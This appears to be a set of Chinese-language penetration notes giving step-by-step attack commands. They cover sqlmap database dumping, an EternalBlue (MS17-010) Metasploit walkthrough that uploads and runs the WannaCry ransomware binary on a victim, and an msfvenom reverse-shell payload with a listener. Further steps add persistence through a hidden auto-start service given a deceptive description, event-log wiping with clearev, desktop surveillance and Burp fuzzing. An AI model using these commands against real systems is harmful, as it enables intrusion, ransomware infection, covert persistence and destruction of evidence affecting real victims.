

1.sqlmap是一款开源、<自动化>的SQL注入漏洞检测与利用工具，主要用于帮助安全测试人员、渗透测试工程师发现并验证 Web应用程序中存在的SQL注入漏洞，进而评估漏洞可能带来的安全风险(如数据泄露、服务器控制权被夺取等)。它基于Python开发，支持多种数据库类型和注入技术，是Web安全领域最常用的工具之一:

①测试是否存在漏洞：sqlmap -u "网址"
②测试当前数据库名：sqlmap -u "网址" --dbs
③测试指定数据库中的数据表有几个：sqlmap-u "你要测试的网址"-D "数据库名"--tables
④测试指定数据表中的数据：sqlmap-u "你要测试的网址"-D "数据库名"-T 数据表名字 --dump

2.WannaCry:永恒之蓝（微软漏洞编号：MS17-010） 工具：美少妇
   终端：msfconsole   search ms17
    use 使用
       options 查看相关配置  RHOSTS 受害者IP
       set 设置相关系数
    meterpreter：控制窗口 meterpreter > shell
     msg * "hello"
  传入病毒：upload C:/Users/Administrator/Desktop/Ransom.WannaCryptor.exe C:/windows/temp
  运行病毒：execute -f C:/Windows/temp/Ransom.WannaCryptor.exe
  生成木马：msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f psh-reflection >1.ps1  （端口：1000-655345）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.72.129 LPORT=6688 -f psh-reflection > 1.ps1

  接收木马：msfconsole
            use exploit/multi/handler
            set payload windows/x64/meterpreter/reverse_tcp
            set lport 端口
            run
   获取微信：screenshot 截取桌面截图，screenshare   实时监控目标桌面
   
   
   
   1.移动木马到C盘 mv 1.ps1 C:/Windows/1.ps1  
   2.创建服务：sc create shell start= auto binPath= "cmd.exe /k powershell.exe -w hidden.ExecutionPolicy Bypass -NoExit -File C:\Windows\1.ps1" obj= Localsystem
   3.伪装服务，设置描述：sc description"shell""绝对安全的shell哈哈哈"    
   4.开机启动：sc config "shell" start=auto
   5.服务隐藏：
   6.清除日志：meterpreter下输入：clearev

   FUZZ：模糊测试技术，所有关于猜的方式  （目录扫描，账号暴力破解，api）
      FUZZ就需要FUZZ对应的字典：https://pan.baidu.com/s/129c5yjjyi_aiq8YKCNUBvw?pwd=fa7h
         Burp Suite
            发送到lntruder：自动测试
               1.勾选你要FUZZ的地方
               2、添加你要FUZZ的字典
